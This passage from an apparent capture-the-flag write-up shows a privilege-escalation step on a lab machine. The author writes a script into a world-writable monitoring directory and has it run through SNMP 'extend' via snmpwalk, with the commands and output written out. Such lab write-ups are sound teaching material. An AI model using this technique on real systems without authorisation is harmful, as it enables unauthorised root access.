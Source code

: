 ```

[michelle@pit /]$ getfacl /usr/local/monitoring
getfacl: Removing leading '/' from absolute path names
# file: usr/local/monitoring
# owner: root
# group: root
user::rwx
user:michelle:-wx
group::rwx
mask::rwx
other::---

```

### Execution as Root

I’ll write a simple script to `ping` my VM:

```

[michelle@pit monitoring]$ echo 'ping -c 1 10.10.14.7' > check_0xdf.sh
[michelle@pit monitoring]$ cat check_0xdf.sh
ping -c 1 10.10.14.7

```

The script works fine as michelle:

```

[michelle@pit monitoring]$ bash check_0xdf.sh
PING 10.10.14.7 (10.10.14.7) 56(84) bytes of data.
64 bytes from 10.10.14.7: icmp_seq=1 ttl=63 time=92.3 ms
--- 10.10.14.7 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 92.259/92.259/92.259/0.000 ms

```

Now I’ll trigger it via SNMP (I can trigger just the MIB for the monitoring script so that it doesn’t take minutes to run):

```

oxdf@parrot$ snmpwalk -v1 -c public 10.10.10.241 NET-SNMP-EXTEND-MIB::nsExtendObjects
NET-SNMP-EXTEND-MIB::nsExtendNumEntries.0 = INTEGER: 1             
NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor
NET-SNMP-EXTEND-MIB::nsExtendArgs."monitoring" = STRING:
NET-SNMP-EXTEND-MIB::nsExtendInput."monitoring" = STRING:
NET-SNMP-EXTEND-MIB::nsExtendCacheTime."monitoring" = INTEGER: 5
NET-SNMP-EXTEND-MIB::nsExtendExecType."monitoring" = INTEGER: exec(1)
NET-SNMP-EXTEND-MIB::nsExtendRunType."monitoring" = INTEGER: run-on-read(1)
NET-SNMP-EXTEND-MIB::nsExtendStorage."monitoring" = INTEGER: permanent(4)
NET-SNMP-EXTEND-MIB::nsExtendStatus."monitoring" = INTEGER: active(1)
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."monitoring" = STRING: ping: cap_set_proc: Permission denied                                                    
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."monitoring" = STRING: ping: cap_set_proc: Permission denied                                                     
Memory usage
              total        used        free      shared  buff/cache   available
Mem:          3.8Gi       439Mi       3.0Gi       8.0Mi       393Mi       3.2Gi
Swap:         1.9Gi          0B       1.9Gi
...[snip]...

```
